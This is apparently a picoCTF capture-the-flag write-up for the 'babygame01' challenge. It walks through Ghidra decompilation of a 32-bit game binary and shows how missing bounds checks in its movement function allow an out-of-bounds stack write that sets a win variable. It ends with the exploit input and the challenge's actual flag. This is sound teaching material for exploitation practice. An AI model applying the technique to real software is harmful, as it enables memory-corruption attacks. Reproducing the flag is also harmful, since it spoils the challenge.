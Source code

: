 ```yaml
---
layout: writeup
category: picoCTF
chall_description: N/A
points: 100
solves: 2771
tags: pwn out-of-bounds
date: 1337-01-01
comments: false
---
```


Get the flag and reach the exit. Welcome to BabyGame! Navigate around the map and see what you can find! The game is available to download [here](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/babygame01). There is no source available, so you'll have to figure your way around the map. You can connect with it using `nc saturn.picoctf.net [port #]`.  

---

We're given a 32-bit ELF binary. checksec shows the following:  

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

I decompiled the binary with Ghidra. After a bit of renaming, I got this for `main()`:  

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined4 main(void)

{
  int move;
  undefined4 uVar1;
  int in_GS_OFFSET;
  int player_x;
  int player_y;
  char win_condition;
  undefined map [2700];
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  init_player(&player_x);
  init_map(map,&player_x);
  print_map(map,&player_x);
  signal(2,sigint_handler);
  do {
    do {
      move = getchar();
      move_player(&player_x,(int)(char)move,map);
      print_map(map,&player_x);
    } while (player_x != 0x1d);
  } while (player_y != 0x59);
  puts("You win!");
  if (win_condition != '\0') {
    puts("flage");
    win();
    fflush(_stdout);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = __stack_chk_fail_local();
  }
  return uVar1;
}


```

First, let's break down what's happening in this program. Essentially, upon starting, we're provided a map of where we can travel and given a certain set of moves that can be found in the program's decompilation:  

- wasd (self-explanatory)  
- p (instantly solve, i.e. get to the X in the map)  
- l (change the player icon displayed in the map)  

There is a win() function that prints out the flag, and it is called in main() once the following conditions are satisfied:  

- The X is reached  
- Some variable on the stack (I named it win_condition) cannot be a null byte.  

Notably, in the player_init() function, the win_condition variable appears to have been set to a null byte (since it's at an offset of 2 on the stack compared to the player variable itself). Additionally, it is located on the stack right after the map, which can be found in Ghidra at the start of main():  

```c
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     080497e1(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     08049764(*)  
             undefined4        EAX:4          move                                    XREF[1]:     080497e1(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[2]:     0804976b(R), 
                                                                                                   080498a1(*)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     0804989b(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[2]:     0804978a(W), 
                                                                                                   0804988a(R)  
             undefined1[270    Stack[-0xaa0   map                                     XREF[4]:     080497a5(*), 
                                                                                                   080497be(*), 
                                                                                                   080497f6(*), 
                                                                                                   08049817(*)  
             undefined1        Stack[-0xaa4   win_condition                           XREF[1]:     0804984e(R)  
             undefined4        Stack[-0xaa8   player_y                                XREF[1]:     08049831(R)  
             undefined4        Stack[-0xaac   player_x                                XREF[6]:     0804978f(*), 
                                                                                                   0804979e(*), 
                                                                                                   080497b7(*), 
                                                                                                   080497fe(*), 
                                                                                                   08049810(*), 
                                                                                                   08049826(R)  
             undefined1        Stack[-0xaad   local_aad                               XREF[2]:     080497e6(W), 
                                                                                                   080497ec(R)  
```

So, essentially, we need to find a way to overwrite the win_condition variable.  

Now, the `move_player()` function turns out to be crucial for this exact purpose:  

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void move_player(int *player,char move,int map)

{
  int new_tile_char;
  
  if (move == 'l') {
    new_tile_char = getchar();
    player_tile = (undefined)new_tile_char;
  }
  if (move == 'p') {
    solve_round(map,player);
  }
  *(undefined *)(*player * 0x5a + map + player[1]) = 0x2e;
  if (move == 'w') {
    *player = *player + -1;
  }
  else if (move == 's') {
    *player = *player + 1;
  }
  else if (move == 'a') {
    player[1] = player[1] + -1;
  }
  else if (move == 'd') {
    player[1] = player[1] + 1;
  }
  *(undefined *)(*player * 0x5a + map + player[1]) = player_tile;
  return;
}
```

Because the map is basically stored as a 1-d array, with its rows and columns calculated with a bit of math, finding a specific tile's location on the stack is calculated with this:  

```c
*player * 0x5a + map + player[1]
```

However, notice how, in all of the move options, none of them actually set bounds on player movement! Meaning, we can go beyond the supposed "limit" of the player's position of (89, 29), as well as go to the negatives. This can be confirmed with a bit of testing of going out of bounds of the map in the program.  

Importantly, the calculated tile location is set to a non-null byte, either the player_tile variable or just 0x2e. So, with the move_player function, if we can set the calculated tile location to the location of the win_condition variable, we can overwrite the null byte with some other byte and then get to the X (i.e. input "p") to get the flag!  

Conveniently, win_condition, as aforementioned, is located directly after map on the stack. Essentially, it is before the stack in the memory by an offset of 0x4 bytes, meaning that, if we set player[1] to -4, we can get to its location!  

So, since the player starts at (4, 4), the sequence `wwwwaaaaaaaap` should get our flag!  

- `wwwwaaaa` sets the player location to (0, 0)  
- The following `aaaa` sets the player location to (0, -4)  
- The `p` solves the program, i.e. moves the player to the X, and thus we get the flag!  

Connect to the service and send the sequence for the flag:  

    picoCTF{gamer_m0d3_enabled_8985ce0e}